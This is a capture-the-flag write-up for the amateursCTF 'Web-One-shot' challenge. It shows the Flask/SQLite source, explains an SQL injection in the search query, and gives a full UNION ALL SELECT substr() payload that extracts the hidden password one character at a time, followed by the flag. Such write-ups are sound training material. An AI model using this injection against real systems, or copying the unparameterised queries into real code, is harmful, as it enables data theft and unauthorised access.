

# Web-One-shot

solved by makider https://makider.me/

## Challenge Text

my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! http://one-shot.amt.rs



## writeup

to solve this challenge we first have to take a look at the code:

```python
from flask import Flask, request, make_response
import sqlite3
import os
import re

app = Flask(__name__)
db = sqlite3.connect(":memory:", check_same_thread=False)
flag = open("flag.txt").read()

@app.route("/")
def home():
    return """
    <h1>You have one shot.</h1>
    <form action="/new_session" method="POST"><input type="submit" value="New Session"></form>
    """

@app.route("/new_session", methods=["POST"])
def new_session():
    id = os.urandom(8).hex()
    db.execute(f"CREATE TABLE table_{id} (password TEXT, searched INTEGER)")
    db.execute(f"INSERT INTO table_{id} VALUES ('{os.urandom(16).hex()}', 0)")
    res = make_response(f"""
    <h2>Fragments scattered... Maybe a search will help?</h2>
    <form action="/search" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="query" value="">
        <input type="submit" value="Find">
    </form>
""")
    res.status = 201

    return res

@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")

    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""

@app.route("/guess", methods=["POST"])
def guess():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    result = db.execute(f"SELECT password FROM table_{id} WHERE password = ?", (request.form['password'],)).fetchone()
    if result != None:
        return flag
    
    db.execute(f"DROP TABLE table_{id}")
    return "You failed. <a href='/'>Go back</a>"

@app.errorhandler(500)
def ise(error):
    original = getattr(error, "original_exception", None)
    if type(original) == sqlite3.OperationalError and "no such table" in repr(original):
        return "that table is gone. <a href='/'>Go back</a>"
    return "Internal server error"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

**this code is vulnerable to sql injection here:**

```python
    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""
```

because the request.from query isn't properly sanitized

and we can inject sql code.

now we can't simply insert `%` to solve this because

then the password is sent in this form here

` {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}`

which censors the last chars of the flag, **except the first one**.

after a bit i have come up with this idea of injecting sql that reads the flag one char by one, so bypassing the one char filter.

to do it i have created some python code that gets the correct table name and builds the payload.

here's the full payload:

```sql
%' UNION ALL SELECT substr(password,1,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,2,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,3,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,4,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,5,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,6,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,7,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,8,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,9,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,10,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,11,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,12,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,13,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,14,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,15,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,16,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,17,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,18,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,19,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,20,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,21,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,22,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,23,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,24,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,25,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,26,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,27,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,28,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,29,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,30,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,31,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,32,1) FROM table_5befc8ecc4866d2b-- -
```

as you can see by using substr() function we can get an arbitrary char in the password which we know is 32 chars long because of this line of code `os.urandom(16).hex()` which gets 16 random bytes and trasforms them to hexadecimal notation so now its 32 chars.

now, send the payload, copy the password, remove the extra new lines and send the guess!

### The flag

`amateursCTF{go_union_select_a_life}`
